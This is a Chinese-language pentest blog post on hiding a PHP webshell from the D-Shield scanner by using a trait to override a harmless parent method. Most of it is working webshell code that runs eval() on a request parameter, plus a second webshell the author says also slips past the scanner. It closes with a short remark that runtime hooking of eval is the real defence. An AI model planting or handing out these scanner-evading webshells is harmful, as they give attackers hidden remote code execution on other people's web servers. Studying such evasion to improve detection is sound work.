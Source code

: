 ```yaml
---
title: 利用 PHP Trait 特性绕过 D 盾查杀
date: 2019-07-25 15:14:14
tags: [web, pentest]
---
```


帮着公司审着代码, 发现一个 PHP 挺好玩的特性, 突发奇想, 想看看能不能绕 D 盾, 没想到就成了.

<!--more-->

这个特性已经写在 Title 里面了, 具体可以参考 [php.net](https://www.php.net/traits) 上的介绍,  
说人话就是覆盖方法, 于是我们就可以覆盖父类的方法, 把无害的变成有害的.  

不废话, 直接看 shell 代码

```php
<?php
trait T {
    function dynamic() {
        eval("$this->s");
    }
}

class B {
    function dynamic() {
        echo "I am innocent";
    }

    function __construct() {
        $this->s = $_REQUEST['s'];
    }
}

class C extends B {
    use T;

    function __construct() {
        parent::__construct();
        $this->dynamic();
    }
}

$c = new C();
```

可以看到用 T 的 `dynamic` 覆盖了 B 的 `dynamic`, 导致了代码执行,  
个人猜测是 D 盾不支持 `trait`, 没有把里面的 eval 当成代码, 直接给跳过了.  

![](https://i.loli.net/2019/07/25/5d395c8b9e25359401.png#center)  
![](https://i.loli.net/2019/07/25/5d395c8b9b5f447606.png#center)  
![](https://i.loli.net/2019/07/25/5d395c8bbdf0329396.png#center)  

而且很神奇的是, 在这一段下面放一段本来过不了的, 也能过 D 盾了.

```php
class B {
    public $c;

    function __construct() { 
            $this->c = $_REQUEST['a'];
    }

    function a() {
            eval($this->c);
    }
}
$d = new B();
$d->a();
```

感觉 D 盾内应该有好几种引擎, trait 把其中基于数据流的引擎给搞崩了? 于是也就能过了.  
比较的谜...

最后, PHP 这种动态语言, 静态查杀的难度是真的大...  
特别涉及类, 过 D 盾的姿势非常多, 百度随便搜搜就有一堆. 想要真正防止, 还是靠 rasp 这种技术吧.  
hook eval, 然后检测数据流是否来自 $_POST, $_GET 等等

